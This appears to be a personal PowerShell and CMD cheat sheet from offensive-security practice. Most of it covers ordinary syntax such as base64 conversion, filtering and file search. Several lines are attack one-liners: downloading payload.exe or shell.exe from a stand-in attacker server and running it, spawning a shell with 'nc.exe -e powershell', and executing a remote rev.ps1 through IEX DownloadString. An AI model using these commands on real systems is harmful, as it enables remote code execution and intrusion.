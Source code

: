 # PowerShell Movements

## base64 encode

```css
[convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("hello"))
```
- works for anything that returns the bytes object

## base64 decode

```css
$b64 = "aGVsbG8="
```

```css
[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($b64))
```

## Pull via HTTP

```powershell
Invoke-WebRequest -Uri http://PAYLOAD_SERVER:8000/ -OutFile ./payload.exe 
```

```powershell
iwr -Uri http://PAYLOAD_SERVER:8000/ -OutFile ./payload.exe 
```

# Old Sheet
## PS cheats
- put paths in quotes, because windows is bad !
- get-Service NAME
- Measure-Object										; for counting outputs
- remember you can pipe things!
- verb-noun
- outputs are objects; therefore get-member
- Objects have methods and Properties
- get-content 															; will usually type/cat/ do something
- acl, get-acl															; shows permisions in current dir, such as owner ; ACCESS CONTROL LISTS
- CMDLET | get-member -MemberType Properties/Method 					; gives information on available props/methods
- CMDLET | where-object -property PROP_NAME -operator OPERATOR_PARM		;	 filter output by my specification (always use match operator)
- CMDLET | select-object -property prop1, prop2, ...					;	 limit output fields creates a new object
- dir env:				 												; display environment vars |  format-list Property-Name

	
> find command
```
get-childitem -force -recurse -path C:\ -errorACtion SilentlyContinue -include *SEARCH_TERM*
https://devblogs.microsoft.com/scripting/use-windows-powershell-to-search-for-files/ 
```

> grep equivalent; this will search entire filesystem
```
Get-ChildItem C:\* -recurse | Select-String -pattern SEARCH_TERM
```


> help/search availble actions
```
get-command *SEARCH_TERM*
get-help	CMDLET
```

> filtering outputs
```sh
Verb-Noun | Where-Object -Property PropertyName -operator Value
Verb-Noun | Where-Object {$_.PropertyName -operator Value}			; `$_` is an operator, iterates through every object passed (SYNTAX ERR?)
Verb-Noun | Sort-Object
```


> pull a shell & execute; possibly dont need double quotes?
```sh
CMD.exe>"powershell.exe Invoke-WebRequest -Uri http://<LHOST>:8000/shell.exe -OutFile ./shell.exe && .\shell.exe"
```

> spawn a process
```
Start-Process PROCESS_NAME 'Start-Process cmd -Verb RunAs' -Credential USERNAME
```

> netcat 
```sh
nc.exe -e powershell  		; works just like other shells
```

	
> invoke expression
```sh
IEX(New-Object WebClient).downloadString("http://attacker.com/rev.ps1")
```




## CMD cheats
- type 		== cat
- findstr 	== grep
- dir /a    == ls -a
- ren 										; alias for rename
- rename 									; path needed for source, NOT needed for destination
- copy 										; source destination
- del
- dir
- net stop/start SERVICE_NAME 				; other functions too, see /?
- whoami /all 								; gives some security info, suchas permissions